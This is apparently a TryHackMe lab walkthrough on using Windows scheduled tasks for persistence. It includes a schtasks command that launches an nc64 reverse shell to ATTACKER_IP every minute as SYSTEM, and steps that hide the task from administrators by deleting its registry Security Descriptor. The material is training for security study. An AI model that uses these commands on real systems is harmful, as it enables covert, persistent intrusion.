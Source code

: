# Abusing Scheduled Tasks for Persistence

Scheduled tasks can be used to establish persistence on Windows systems. Below are some methods to schedule the execution of a payload.

## Task Scheduler

The most common way to schedule tasks is by using the built-in Windows Task Scheduler. It provides granular control over task execution, allowing tasks to start at specific times, repeat periodically, or trigger based on system events. You can interact with the Task Scheduler via the command line using `schtasks`. A complete reference for the command can be found on Microsoft's website.

### Creating a Scheduled Task

To create a task that runs a reverse shell every minute (for demonstration purposes), use the following command:

```cmd
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

> **Note:** Use `THM-TaskBackdoor` as the task name to ensure you get the flag.

This command creates a task named `THM-TaskBackdoor` that executes an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options specify the task's schedule (every minute), and `/ru SYSTEM` ensures it runs with SYSTEM privileges.

### Verifying the Task

To confirm the task was created successfully, run:

```cmd
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making the Task Invisible

By default, the task is visible to users, which could raise suspicion. To hide it, you can delete its Security Descriptor (SD). The SD is an ACL that defines which users can access the task. Removing it prevents all users, including administrators, from seeing the task.

### Deleting the Security Descriptor

The SDs for scheduled tasks are stored in the registry under:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Each task has a corresponding registry key with an `SD` value. To delete the `SD` value for the `THM-TaskBackdoor` task, follow these steps:

1. Use `PsExec` to open Regedit with SYSTEM privileges:
    ```cmd
    C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
    ```

2. Navigate to the registry key for `THM-TaskBackdoor` and delete the `SD` value.

### Verifying the Task is Hidden

After deleting the `SD` value, querying the task will result in an error:

```cmd
C:\> schtasks /query /tn thm-taskbackdoor
ERROR: The system cannot find the file specified.
```

## Testing the Reverse Shell

Start an `nc` listener on the attacker's machine:

```bash
user@AttackBox$ nc -lvp 4449
```

After a minute, the reverse shell should connect back to the attacker's machine.

### Retrieving the Flag

Use the reverse shell to execute the following command and retrieve the flag:

```cmd
C:\> C:\flags\flag9.exe
```